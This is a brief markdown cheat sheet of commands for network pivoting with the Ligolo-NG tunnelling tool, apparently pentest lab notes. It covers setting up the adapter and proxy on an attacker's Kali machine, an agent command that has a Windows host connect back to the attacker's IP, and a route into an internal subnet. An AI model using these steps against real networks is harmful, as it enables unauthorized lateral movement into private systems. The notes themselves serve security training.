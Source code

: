 #Ligolo-NG  </br >
https://github.com/nicocha30/ligolo-ng
https://www.youtube.com/watch?v=DM1B8S80EvQ&t=1s  </br >
https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/ </br >
https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5 </br >
#Commands
Create ligolo network adapter</br >
```
sudo ip tuntap add user kali mode tun ligolo
````

Up And Running the Network adapter ligolo </br >

```
sudo ip link set dev ligolo up
```

Start Ligolo from kali Linux (Attacker System) </br >
```
>./Lproxy -selfcert (Mention Port below)
```
Connecting to attackers machine </br >
```
WIN_PS>.\Lagent -connect 192.168.45.204:11601 -ignore-cert
```
In Kali Linux, You can see the Session connected, Check for interfaces </br >
```
Ligilo>ifconfig (Network interfaces)
```
Add network Adaper based Above command (Run this if you for got run above "sudo ip link set dev ligolo up") </br >
```
sudo ip route add 172.16.201.0/24 dev ligolo
```
After Adding the route in Windows, Run below command in ligolo terminal in Kali linux
```
Ligilo>start
```
You should able to reach before executing next command
```
>ping 172.16.201.11 
```

Credits:  [Nicolas Chatelain]([https://github.com/nicocha30]
